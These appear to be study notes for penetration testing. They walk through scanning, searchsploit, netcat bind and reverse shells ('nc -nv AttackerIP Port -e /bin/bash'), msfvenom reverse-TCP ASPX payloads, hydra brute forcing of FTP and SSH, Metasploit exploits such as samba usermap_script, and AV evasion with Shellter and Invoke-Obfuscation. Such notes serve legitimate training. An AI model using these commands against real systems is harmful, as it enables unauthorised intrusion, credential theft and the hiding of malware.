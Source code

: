 
---

### **1. Introduction to Exploitation**

- Exploitation involves tactics, techniques, and procedures used by attackers or penetration testers to gain initial access to a target system or network.
    
- Effective exploitation depends on solid information gathering and service enumeration.
    
- **Methodology:**
    
    1. Identify vulnerable services
        
    2. Search or prepare exploit code
        
    3. Gain system access
        
    4. Establish remote access
        
    5. Bypass AV detection
        
    6. Pivot to other systems
        

---

### **2. Vulnerability Scanning**

#### **Banner Grabbing**

- Used to collect information about the OS and running services.
    
- Techniques include:
    
    - Nmap version detection: `nmap -sV -O TargetIP`
        
    - Banner script: `nmap -sV --script=banner TargetIP`
        
    - Netcat: `nc TargetIP Port`
        
    - SSH login attempts: `ssh user@TargetIP`
        

#### **Nmap Script Scanning**

- Nmap scripts use Lua:
    
    ```
    nmap -sV --script=http-enum -p 80 TargetIP
    nmap -sV -p 80 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" TargetIP
    ```
    

#### **Metasploit Scanning**

- Already covered in the Metasploit section.
    

---

### **3. Exploits**

#### **Searching for Exploits**

- After identifying a vulnerability, search exploit code on:
    
    - Exploit-DB, Rapid7, GitHub, PacketStorm
        

#### **SearchSploit (Offline Search)**

- Comes pre-installed with Kali Linux.
    
    ```
    searchsploit ServiceName
    searchsploit -c ServiceName      # Case-sensitive
    searchsploit -t ServiceName      # Title search
    searchsploit -e ServiceName      # Exact match
    searchsploit remote windows smb -w | grep -e "EternalBlue"
    ```
    

#### **Fixing Exploits**

- Always review the exploit code to understand it and make necessary adjustments.
    

#### **Cross-Compiling Exploits**

- For Windows exploits written in C/C++:
    
    ```
    i686-w64-mingw32-gcc File.c -o OutputName -lws2_32
    gcc -pthread File.c -o OutputName -lcrypt
    ```
    

---

### **4. Bind & Reverse Shells**

#### **Netcat Basics**

- Netcat can be used for scanning, banner grabbing, file transfer, and remote shells.
    
    ```
    nc -nv TargetIP Port
    nc -lnvp Port
    nc -lnvp Port > output.txt
    nc -nv TargetIP < file.txt
    ```
    

#### **Bind Shells**

- Attacker connects to a listening shell on the victim:
    
    ```
    nc -lnvp Port -e cmd.exe
    nc -nv TargetIP Port
    ```
    

#### **Reverse Shells**

- Victim connects to the attacker's listener:
    
    ```
    nc -lnvp Port
    nc -nv AttackerIP Port -e /bin/bash
    ```
    
- **Resources:**
    
    - [https://www.revshells.com](https://www.revshells.com/)
        
    - [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
        

---

### **5. Exploitation Frameworks**

#### **Metasploit Framework**

- Example usage:
    
    ```
    msf6 > use exploit/multi/http/processmaker_exec
    ```
    

#### **PowerShell Empire**

- Framework for exploitation and post-exploitation on Windows.
    
- Starkiller is its GUI frontend: VueJS + Electron.
    

---

### **6. Windows Exploitation**

#### **Black Box Pentest**

- Attacker has no prior information.
    

#### **Port Scanning & Enumeration**

```bash
nmap -sV -p- -T4 -PA -sC TargetIP -oX output.xml
msf6 > db_import output.xml
msf6 > use auxiliary/scanner/smb/smb_version
```

#### **Targeting FTP (IIS)**

```bash
nmap -p 21 --script=ftp-anon TargetIP
hydra -L users.txt -P passwords.txt TargetIP ftp
msfvenom -p windows/shell/reverse_tcp LHOST=AttackerIP LPORT=Port -f asp > shell.aspx
ftp TargetIP
```

#### **Targeting SSH & SMB**

```bash
hydra -L users.txt -P passwords.txt TargetIP ssh
msf6 > use auxiliary/scanner/ssh/ssh_login
enu4linux -u user -p pass TargetIP
```

#### **Targeting MySQL**

```bash
msf6 > use auxiliary/scanner/mysql/mysql_login
mysql -u user -p -h TargetIP
```

---

### **7. Linux Exploitation**

#### **Linux Pentest Flow**

- Host discovery → Enumeration → Exploitation
    

#### **Port Scanning**

```bash
nmap -sV -p- -sC -T4 -PA TargetIP -O -oX output.xml
```

#### **vsFTPd / PHP / SAMBA**

```bash
searchsploit vsftpd
searchsploit -m ID
msf6 > use exploit/multi/samba/usermap_script
```

---

### **8. AV Evasion & Obfuscation**

#### **Shellter**

- On-disk evasion via encoding, packing, crypters
    
- Website: [https://www.shellterproject.com/homepage/](https://www.shellterproject.com/homepage/)
    

```bash
sudo apt install shellter wine32 -y
cd /usr/share/windows-resources/shellter
sudo wine shellter.exe
```

#### **PowerShell Obfuscation**

- Tool: Invoke-Obfuscation
    
    - [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
        

```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
SET SCRIPTPATH /path/to/revshell
```

---
